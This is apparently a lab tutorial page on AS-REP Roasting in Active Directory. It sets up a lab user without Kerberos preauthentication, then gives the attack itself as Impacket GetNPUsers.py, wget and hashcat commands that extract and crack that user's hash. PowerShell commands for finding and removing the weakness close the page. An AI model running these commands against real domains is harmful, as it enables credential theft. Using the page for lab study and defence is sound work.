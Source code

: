 # AS-REP Roasting

## Configuring

### Prerequisite&#x20;

{% content-ref url="./" %}
[.](./)
{% endcontent-ref %}

### Configuring

1. Login on `DC02` with the username `Administrator` and password `Welcome01!`.
2. Open the "Active Directory Users and Computers" administration tool on `DC02`.

![](<../../../.gitbook/assets/image (6) (1) (1) (1) (1).png>)

3\. Click on "View" and enable "Advanced Features"

![](<../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png>)

4\. Open "Employees", right click the user `Richard` and click on "Properties"

![](<../../../.gitbook/assets/image (64) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

5\. Open "Account" and scroll to the bottom in "Account options", then select "Do not require kerberos preauthentication".

![](<../../../.gitbook/assets/image (39) (1) (1) (1) (1) (1).png>)

6\. Right click on `Richard` and select "Reset Password". Uncheck "User must change password at next logon" and fill in the password `Sample123`. Click on "OK"

![](<../../../.gitbook/assets/image (65) (1) (1) (1) (1) (1) (1).png>)

## Attacking

### How it works

When pre-authentication is not required, an attack can directly send a request for authentication. The KDC will return an encrypted TGT and the attacker can extract the hash and brute-force it offline.

### Tools

* [Impacket GetNPUsers.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py)

### Executing the attack

1. Make sure Impacket is installed and run the GetNPUsers.py tool with the users we enumerated earlier and saved in `users.txt`. The tool will check if any of the enumerated users doesn't require pre-authentication and will request a ticket which we can crack offline.

```
GetNPUsers.py amsterdam/ -dc-ip 10.0.0.3 -usersfile users.txt -format hashcat -outputfile asreproasting
```

![](<../../../.gitbook/assets/image (7) (1) (1) (1) (1).png>)

2\. The tool doesn't say anything about users that don't require pre-authentication. Check if the outputfile exists and cat it:

```
cat asreproasting
```

![](<../../../.gitbook/assets/image (43) (1) (1) (1) (1).png>)

3\. The user `Richard` doesn't require pre-authentication and we have an hash from the TGT. Lets crack it with Hashcat and [this](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/2020-200\_most\_used\_passwords.txt) wordlist. The Hashcat parameters are:

* Crackingmode: `-a 0` for using a wordlist
* Hashmode: `-m 18200` for Kerberos 5, etype 23, AS-REP
* List with hashes: `asreproasting`
* Password list: `2020-200_most_used_passwords.txt`

```
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/2020-200_most_used_passwords.txt
hashcat -a 0 -m 18200 asreproasting 2020-200_most_used_passwords.txt
```

![](<../../../.gitbook/assets/image (10) (1) (2) (1) (1).png>)

4\. We successfully cracked the password. The password for `Richard` is `Sample123`.

## Defending

### Recommendations

* Periodically check for users that don't require pre-authentication and remove the attribute.

Check for users with the attribute:

```
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} | Select-Object samAccountName
```

Remove the attribute for a single user:

```
Set-ADAccountControl -DoesNotRequirePreAuth $false -Identity <USER>
```

Check for users with the attribute and remove it:

```
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} | Set-ADAccountControl -DoesNotRequirePreAuth $false
```

### Detection



## References

{% embed url="https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py" %}
